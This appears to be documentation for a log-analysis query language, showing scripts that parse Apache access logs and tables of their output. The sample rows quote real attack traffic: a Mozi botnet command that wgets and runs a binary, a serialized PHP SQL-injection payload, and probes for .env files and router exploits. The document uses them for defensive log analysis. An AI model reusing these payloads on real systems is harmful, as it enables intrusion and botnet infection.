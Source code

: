 ### ./view/view_single_file.sx
```jsx
LIST('file:/data/logs/web/access.log')
| parse(pattern:$[./apache_access_log.sxp])
```

| clientIp          | host            | ident  | auth   | timestamp                       | verb | uri                | httpversion | invalidRequest | response | bytes | referrer                  | agent                                                                                                          | extra  |
|-------------------|-----------------|--------|--------|---------------------------------|------|--------------------|------------:|----------------|---------:|------:|---------------------------|----------------------------------------------------------------------------------------------------------------|--------|
| `96.126.103.73`   | 96.126.103.73   | *null* | *null* | `2020‑06‑01 06:22:30.000 +0300` | GET  | /                  |         1.1 | *null*         |      200 |   238 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36 | *null* |
| `134.119.218.243` | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:01:30.000 +0300` | GET  | /                  |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36  | *null* |
| `162.243.143.216` | 162.243.143.216 | *null* | *null* | `2020‑06‑01 07:42:43.000 +0300` | GET  | /manager/text/list |         1.1 | *null*         |      404 |   437 | ‑                         | Mozilla/5.0 zgrab/0.x                                                                                          | *null* |
....

### ./view/view_indexed_by_pathtime.sx
```jsx
INIT(from:now()[-14 day], to:now());
// from other scripts: @[/path/to/this/view/view_indexed_by_pathtime.sx](from:now()[-2 hour], to:now())

LIST(src:'sas://remote/logs/apache/$yyyy$/$MM$/$dd$/$yyyy$-$MM$-$dd$_*access.log', _tz:'GMT')
| filter_out(file_name like '%intranet_access.log' OR file_name like '%sports_club_access.log')
| filter(path_time BETWEEN $from[-1 day] AND $to)
| parse(pattern:$[./apache_access_log.sxp])
| filter(timestamp BETWEEN $from AND $to)
```

| clientIp         | host           | ident  | auth   | timestamp                       | verb | uri          | httpversion | invalidRequest | response | bytes | referrer | agent       | extra  |
|------------------|----------------|--------|--------|---------------------------------|------|--------------|------------:|----------------|---------:|------:|----------|-------------|--------|
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:25:01.000 +0300` | GET  | /            |         1.1 | *null*         |      200 |  2120 | ‑        | curl/7.69.1 | *null* |
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:37:21.000 +0300` | GET  | /config/.env |         1.1 | *null*         |      404 |   437 | ‑        | curl/7.69.1 | *null* |
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:50:14.000 +0300` | GET  | /config/.env |         1.1 | *null*         |      404 |  2320 | ‑        | curl/7.69.1 | *null* |
....

### ./query_clientip_metainfo.sx
```jsx
@[./view/view_default.sx]
| select(clientIp, cc(clientIp), asname(clientIp), geo(clientIp), *)
```

| clientIp          | cc | asname                          | geo               | host            | ident  | auth   | timestamp                       | verb | uri                                                                                           | httpversion | invalidRequest | response | bytes | referrer                  | agent                                                                                                               | extra  |
|-------------------|----|---------------------------------|-------------------|-----------------|--------|--------|---------------------------------|------|-----------------------------------------------------------------------------------------------|------------:|----------------|---------:|------:|---------------------------|---------------------------------------------------------------------------------------------------------------------|--------|
| `96.126.103.73`   | US | AS63949 Linode, LLC             | 37.5625,‑122.0004 | 96.126.103.73   | *null* | *null* | `2020‑06‑01 06:22:30.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   238 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36      | *null* |
| `134.119.218.243` | DE | AS29066 Host Europe GmbH        | 51.2993,9.491     | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:01:30.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36       | *null* |
| `162.243.143.216` | US | AS14061 DIGITALOCEAN‑ASN        | 37.7353,‑122.3732 | 162.243.143.216 | *null* | *null* | `2020‑06‑01 07:42:43.000 +0300` | GET  | /manager/text/list                                                                            |         1.1 | *null*         |      404 |   437 | ‑                         | Mozilla/5.0 zgrab/0.x                                                                                               | *null* |
| `134.119.218.243` | DE | AS29066 Host Europe GmbH        | 51.2993,9.491     | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:52:36.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36       | *null* |
| `185.172.111.210` | NL | AS206898 Server Hosting Pty Ltd | 52.3824,4.8995    | 185.172.111.210 | *null* | *null* | `2020‑06‑01 08:05:34.000 +0300` | POST | /GponForm/diag_Form?style/                                                                    |         1.1 | *null*         |      404 |  1989 | ‑                         | curl/7.3.2                                                                                                          | *null* |
| `223.149.176.156` | CN | AS4134 Chinanet                 | 25.2239,112.1703  | 223.149.176.156 | *null* | *null* | `2020‑06‑01 08:10:23.000 +0300` | GET  | /shell?cd+/tmp;rm+‑rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws |         1.1 | *null*         |      404 |   493 | ‑                         | Hello, world                                                                                                        | *null* |
...

### ./query_by_keyword.sx
```jsx
@[./view/view_default.sx]
| filter(_raw_text like '%union select%')
```

| clientIp         | host           | ident  | auth   | timestamp                       | verb | uri                       | httpversion | invalidRequest | response | bytes | referrer                                                                                                                                                                                                                                                                            | agent                                                                         | extra  |
|------------------|----------------|--------|--------|---------------------------------|------|---------------------------|------------:|----------------|---------:|------:|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------|--------|
| `175.126.145.10` | 175.126.145.10 | *null* | *null* | `2020‑06‑04 02:39:27.000 +0300` | POST | /%75%73%65%72%2e%70%68%70 |         1.1 | *null*         |      404 |   492 | 554fcae493e564ee0dc75bdf2ebf94caads\|a:3:{s:2:"id";s:3:"'/*";s:3:"num";s:141:"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b24524345275d3b6469652f2a2a2f286d6435284449524543544f52595f534550415241544f5229293b2f2f7d7d,0‑‑";s:4:"name";s:3:"ads";}554fcae493e564ee0dc75bdf2ebf94ca | Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:28.0) Gecko/20100101 Firefox/28.0 | *null* |
| `106.54.4.180`   | 106.54.4.180   | *null* | *null* | `2020‑06‑05 12:38:07.000 +0300` | POST | /%75%73%65%72%2e%70%68%70 |         1.1 | *null*         |      404 |   492 | 554fcae493e564ee0dc75bdf2ebf94caads\|a:3:{s:2:"id";s:3:"'/*";s:3:"num";s:141:"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b24524345275d3b6469652f2a2a2f286d6435284449524543544f52595f534550415241544f5229293b2f2f7d7d,0‑‑";s:4:"name";s:3:"ads";}554fcae493e564ee0dc75bdf2ebf94ca | Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0 | *null* |
| `45.83.254.66`   | 45.83.254.66   | *null* | *null* | `2020‑06‑09 14:54:21.000 +0300` | POST | /%75%73%65%72%2e%70%68%70 |         1.1 | *null*         |      404 |   492 | 554fcae493e564ee0dc75bdf2ebf94caads\|a:3:{s:2:"id";s:3:"'/*";s:3:"num";s:141:"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b24524345275d3b6469652f2a2a2f286d6435284449524543544f52595f534550415241544f5229293b2f2f7d7d,0‑‑";s:4:"name";s:3:"ads";}554fcae493e564ee0dc75bdf2ebf94ca | Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0  | *null* |
...


### ./query_hits_by_status_range.sx
```jsx
@[./view/view_default.sx]
| select(
  day:timestamp[1 day],
  total:count(*),
  status_200:count(response=200),
  status_1xx:count(response between 100 and 199),
  status_2xx:count(response between 200 and 299),
  status_3xx:count(response between 300 and 399),
  status_4xx:count(response between 400 and 499),
  status_5xx:count(response between 500 and 599)
)
| group(day)
| select(*, fail_4xx_ratio:ROUND(10000.0*status_4xx/total)/100.0)
```

| day                             | total | status_200 | status_1xx | status_2xx | status_3xx | status_4xx | status_5xx | fail_4xx_ratio |
|---------------------------------|------:|-----------:|-----------:|-----------:|-----------:|-----------:|-----------:|---------------:|
| `2020‑06‑01 00:00:00.000 +0300` |    70 |         44 |          0 |         44 |          0 |         26 |          0 |          37.14 |
| `2020‑06‑02 00:00:00.000 +0300` |   148 |         99 |          0 |         99 |          0 |         49 |          0 |          33.11 |
| `2020‑06‑03 00:00:00.000 +0300` |   114 |         88 |          0 |         88 |          0 |         26 |          0 |          22.81 |
| `2020‑06‑04 00:00:00.000 +0300` |  1091 |         80 |          0 |         80 |          0 |       1010 |          1 |          92.58 |
| `2020‑06‑05 00:00:00.000 +0300` |  1098 |        101 |          0 |        101 |          0 |        996 |          1 |          90.71 |
...

### ./query_top_countries.sx
```jsx
@[./view/view_default.sx]
| select(count(*), cc(clientIp))
| group(cc)
| sort(count desc)
```

| count | cc |
|------:|----|
|  4743 | CN |
|  4165 | US |
|  1937 | RU |
|  1837 | TW |
|  1115 | GB |
...

### ./query_find_fake_google_bots.sx
```jsx
@[./view/view_default.sx]
| filter(
     agent like '%Googlebot/%'
  or agent like 'AdsBot-Google/%'
  or agent like '%AdsBot-Google-Mobile;%'
  or agent like '%Google-Ads-Overview%'
)
| filter_out(ASN(clientIp) = 15169) // AS15169 GOOGLE
| select(asname(clientIp), geo(clientIp), cc(clientIp), agent, *)
```

| asname                      | geo            | cc | agent                                                                    |   asn | clientIp       | host         | ident  | auth   | timestamp                       | verb | uri      | httpversion | invalidRequest | response | bytes | referrer | extra  |
|-----------------------------|----------------|----|--------------------------------------------------------------------------|------:|----------------|--------------|--------|--------|---------------------------------|------|----------|------------:|----------------|---------:|------:|----------|--------|
| AS64425 SKB Enterprise B.V. | 52.3759,4.8975 | NL | Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html) | 64425 | `5.182.210.16` | 5.182.210.16 | *null* | *null* | `2020‑08‑07 15:44:40.000 +0300` | GET  | /api.php |         1.1 | *null*         |      404 |   437 | ‑        | *null* |

### ./query_top_response_len.sx
```jsx
@[./view/view_default.sx]
| select(timestamp, clientIp, verb, bytes, uri, *)
| sort(bytes desc)
| limit(50)
```

| timestamp                       | clientIp         | verb   |      bytes | uri                    | host           | ident  | auth   | httpversion | invalidRequest | response | referrer | agent                                                                        | extra  |
|---------------------------------|------------------|--------|-----------:|------------------------|----------------|--------|--------|------------:|----------------|---------:|----------|------------------------------------------------------------------------------|--------|
| `2020‑06‑04 23:43:13.000 +0300` | `183.83.145.187` | GET    | 6529322873 | /secret1337/backup.tgz | 183.83.145.187 | *null* | *null* |         1.1 | *null*         |      200 | ‑        | Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0 | *null* |
| `2020‑06‑13 20:36:48.000 +0300` | `172.105.89.161` | GET    |  239233441 | /secret1337/mysql.sql  | 172.105.89.161 | *null* | *null* |         1.1 | *null*         |      200 | ‑        | Mozilla/5.0 zgrab/0.x                                                        | *null* |
| `2020‑06‑25 20:22:14.000 +0300` | `217.18.21.2`    | *null* |       3681 | *null*                 | 217.18.21.2    | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑25 15:59:32.000 +0300` | `90.191.124.115` | *null* |       3665 | *null*                 | 90.191.124.115 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑08‑09 02:39:27.000 +0300` | `223.205.236.82` | *null* |       3665 | *null*                 | 223.205.236.82 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
...

### ./join_with_tor_exit_nodes.sx
```jsx
@[./view/view_default.sx]
| leftjoin(@[../tor_exit_nodes/view_cached.sx] ON left.clientIp = right.tor_ip)
| filter(tor_ip is not null)
| select(tor_ip, tor_time, tor_id, *)
```

| tor_ip            | tor_time                        | tor_id                                   | clientIp          | host            | ident  | auth   | timestamp                       | verb | uri                       | httpversion | invalidRequest | response | bytes | referrer | agent                                                                                                              | extra  |
|-------------------|---------------------------------|------------------------------------------|-------------------|-----------------|--------|--------|---------------------------------|------|---------------------------|------------:|----------------|---------:|------:|----------|--------------------------------------------------------------------------------------------------------------------|--------|
| `185.220.102.6`   | `2020‑08‑12 13:23:50.000 +0300` | A2DB293FFC5A76A718863BF1AEDBC8DFB1CB1097 | `185.220.102.6`   | 185.220.102.6   | *null* | *null* | `2020‑06‑09 07:01:29.000 +0300` | POST | /cgi‑bin/mainfunction.cgi |         1.1 | *null*         |      404 |   437 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `185.220.102.6`   | `2020‑08‑12 12:57:46.000 +0300` | A2534EF23390CAE079B1586F0FDF9CE11F556062 | `185.220.102.6`   | 185.220.102.6   | *null* | *null* | `2020‑06‑09 07:01:29.000 +0300` | POST | /cgi‑bin/mainfunction.cgi |         1.1 | *null*         |      404 |   437 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `178.165.72.177`  | `2020‑08‑12 12:51:05.000 +0300` | 3994E734DCD794479D1A60F4ABD3FC91CAA395EE | `178.165.72.177`  | 178.165.72.177  | *null* | *null* | `2020‑06‑16 00:31:12.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |  1813 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36 | *null* |
| `178.165.72.177`  | `2020‑08‑12 12:51:05.000 +0300` | 3994E734DCD794479D1A60F4ABD3FC91CAA395EE | `178.165.72.177`  | 178.165.72.177  | *null* | *null* | `2020‑06‑16 00:31:12.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |   520 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36 | *null* |
| `185.220.101.203` | `2020‑08‑12 13:06:15.000 +0300` | C8F6F6C1834454F1E927A4A05E8E54EB623D4B73 | `185.220.101.203` | 185.220.101.203 | *null* | *null* | `2020‑06‑19 20:26:05.000 +0300` | GET  | /async/                   |         1.1 | *null*         |      404 |   493 | ‑        | Mozilla/5.0 (Windows ME 4.9; rv:31.0) Gecko/20100101 Firefox/31.7                                                  | *null* |
...
